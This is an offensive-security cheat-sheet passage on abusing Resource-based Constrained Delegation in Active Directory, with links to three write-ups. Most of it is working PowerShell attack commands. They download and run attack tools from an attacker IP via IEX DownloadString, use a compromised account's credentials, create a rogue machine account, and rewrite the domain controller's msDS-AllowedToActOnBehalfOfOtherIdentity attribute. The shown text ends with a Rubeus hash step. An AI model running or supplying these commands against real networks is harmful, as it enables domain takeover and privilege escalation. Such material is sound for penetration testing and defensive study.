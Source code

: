 # Resource-based Constrained Delegation

* [https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
* [https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/](https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/)




## RBCD from Windows

Load tools:

```
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powermad.ps1")
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powerview4.ps1")
```

Check if `ms-DS-MachineAccountQuota` allows to create new machine accounts:

```
PS > $root = [ADSI]"LDAP://RootDSE"
PS > $root.rootDomainNamingContext
DC=megacorp,DC=local
PV3 > Get-DomainObject -Identity "DC=megacorp,DC=local" | select ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                       10
```

Define credentials for the compromised account with the necessary DACL:

```
PS > $userWithDaclUsername = 'megacorp.local\snovvcrash'
PS > $userWithDaclPassword = ConvertTo-SecureString 'Qwe123!@#' -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential($userWithDaclUsername, $userWithDaclPassword)
```

Add new machine account and configure RBCD (i.e., set `msDS-AllowedToActOnBehalfOfOtherIdentity` property to value of the new machine account SID) on the vulnerable host (DC01):

```
Powermad > New-MachineAccount -MachineAccount fakemachine1337 -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
PV3 > $computerSID = Get-DomainComputer -Identity fakemachine1337 -Properties ObjectSid -Verbose -Credential $cred | select -Expand ObjectSid
PS > $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($computerSID))"
PS > $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS > $SD.GetBinaryForm($SDBytes, 0)
PV3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose -Credential $cred
PS > .\Rubeus.exe hash /domain:megacorp.local /user:fakemachine1337$ /password:Passw0rd!
FC525C9683E8FE067095BA2DDC971889
```
